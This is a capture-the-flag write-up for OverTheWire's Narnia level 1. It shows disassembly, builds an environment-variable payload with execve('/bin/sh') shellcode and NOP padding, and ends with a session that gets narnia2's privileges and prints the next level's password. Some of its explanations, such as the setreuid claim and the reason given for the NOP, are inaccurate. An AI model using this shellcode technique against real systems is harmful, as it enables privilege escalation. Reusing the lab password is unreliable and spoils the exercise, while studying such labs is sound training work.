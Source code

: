 Challenge URL is <a href="http://www.overthewire.org/wargames/narnia/narnia1.shtml">HERE</a>

<<CHALLENGE_CONTENT
Level 1

There is no information for this level.
If you would like to see the description of this level expanded, please consider to contribute to OTW!

CHALLENGE_CONTENT
	- The program is located at /narnia/narnia1
	- Disassembly shows that 'ret' variable is at $ESP+0x1c

		0x08048445 <+49>:	movl   $0x8048569,(%esp)
		0x0804844c <+56>:	call   0x8048340 <puts@plt>
		0x08048451 <+61>:	movl   $0x8048530,(%esp)
		0x08048458 <+68>:	call   0x8048320 <getenv@plt>
		0x0804845d <+73>:	mov    %eax,0x1c(%esp)		<<< ret = getenv("EGG")
	  * 0x08048461 <+77>:	mov    0x1c(%esp),%eax
		0x08048465 <+81>:	call   *%eax


	- We can upload a shell code with drop-privilledge(seteuid) by setting it in EGG, but we have to be careful to set first 4 bytes of the string to the address of shellcode.

	- When test with EGG=aaaa, 
		ret --> 0xffffd992, whereas $esp = 0xffffd720
		Meaning at location 0xffffd992 is where the string from getenv("EGG") resides. We have to point to that location + 4 (skip the pointing address) and put our shell code there.

	- For illustration:
		0xffffd992: (address for ret) (shellcode) 

	- Stack does grow as many characters is input. Therefore, we cannot rely only on the address. We need to try several times to get it right. (or use other advanced techniques)

	- Luckily, there is no other protection method. ESP is always the same address. Therefore we can pin-point the address very accurately

	- Shellcode with setreuid() from http://www.shell-storm.org/shellcode/files/shellcode-811.php (28bytes)
		"\x31\xc0\x50\x68\x2f\x2f\x73"
		"\x68\x68\x2f\x62\x69\x6e\x89"
		"\xe3\x89\xc1\x89\xc2\xb0\x0b"
		"\xcd\x80\x31\xc0\x40\xcd\x80

	- Our payload consists of address(4 bytes) + shellcode(28 bytes)= 32 bytes. The return address for ret is 0xffffd996 - size of payload. The location of memory after we inject shell code would be at 0xffffd996 - 38 = 0xffffd976
	So will have the pointer points to address 0xffffd976 +4 = 0xffffd97a

	- Then our payload is
		"\x7a\xd9\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

	- Problem is, $ebp is at 0xffffd728, it doesn't allows anything to be executed over this address. We have to put some junks so the 'ret' is higher than $ebp
		ret - $ebp = 0xffffd996 - 0xffffd728 = 622 , let me set it as 700 characters below the payload.
	- So now, our payload will be like: [ ret(4bytes) + shellcode(28bytes) + junk(700bytes) ] = total of 732 bytes
		the new return address would be : 0xffffd996 - 732 = 0xffffd6ba
		the new point of executing shellcode: 0xffffd6ba + 4 = 0xffffd6be
	- New shellcode is
		"\xbe\xd6\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*700

	- It is now does nothing, no error nor success message. Here is because of when it jumps to the starting of shellcode, it does not know that it is the begining of a function. It needs to jump to an empty NOP before it can start the shell code. Therefore, I need to put at least one NOP in front of the shellcode and recalculate the ret address to point to the NOP.
	- Now the shellcode is like this: [ ret(4bytes) + NOP(1byte)+ shellcode(28bytes) + junk(700bytes) ] = total of 733 bytes.

		"\xbf\xd6\xff\xff" + "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*700

	- remark: 'ret' address can be either 0xffffd6be(point to NOP), or 0xffffd6bf(point to shellcode), since NOP does nothing and move to next instruction.

	narnia1@melissa:/narnia$ export EGG=$(python -c 'print "\xbf\xd6\xff\xff"+"\x90"+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*700')
	narnia1@melissa:/narnia$ ./narnia1 
	Trying to execute EGG!
	$ id
	uid=14001(narnia1) gid=14001(narnia1) euid=14002(narnia2) groups=14002(narnia2),14001(narnia1)
	$ cat /etc/narnia_pass/narnia2
	nairiepecu
	$ 
